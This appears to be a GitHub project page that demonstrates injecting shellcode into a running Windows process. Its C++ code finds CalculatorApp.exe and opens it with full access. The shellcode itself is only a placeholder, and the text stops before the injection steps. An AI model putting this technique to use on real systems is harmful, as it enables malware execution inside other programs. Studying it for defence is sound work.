 Project: Demonstrate the technique of shellcode injection into a running Windows process. Locate a process, allocate memory, write shellcode, and execute it within the target process.

&nbsp;

# Code

```C++
#include <iostream>
#include <windows.h>
#include <tlhelp32.h>

unsigned char payload[] = " <The shellcode goes here> ";

DWORD GetProcessID(const std::wstring& processName) {
    HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    if (hSnapshot == INVALID_HANDLE_VALUE) {
        std::wcerr << L"CreateToolhelp32Snapshot failed. Error: " << GetLastError() << std::endl;
        return 0;
    }

    PROCESSENTRY32 pe;
    pe.dwSize = sizeof(PROCESSENTRY32);

    if (!Process32First(hSnapshot, &pe)) {
        std::wcerr << L"Process32First failed. Error: " << GetLastError() << std::endl;
        CloseHandle(hSnapshot);
        return 0;
    }

    DWORD processID = 0;
    do {
        if (processName == pe.szExeFile) {
            processID = pe.th32ProcessID;
            break;
        }
    } while (Process32Next(hSnapshot, &pe));

    CloseHandle(hSnapshot);

    if (processID == 0) {
        std::wcout << L"Process not found." << std::endl;
    }
    else {
        std::wcout << L"Process ID of " << processName << L" is: " << processID << std::endl;
    }

    return processID;
}

int main() {
    std::wstring processName = L"CalculatorApp.exe";
    DWORD procID = GetProcessID(processName);

    if (procID == 0) {
        std::cerr << "Failed to get process ID. Exiting." << std::endl;
        return 1;
    }

    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, procID);
    if (hProcess == NULL) {
        std::cerr << "Failed to open process. Error: " << GetLastError() << std::endl;
        return 1;
```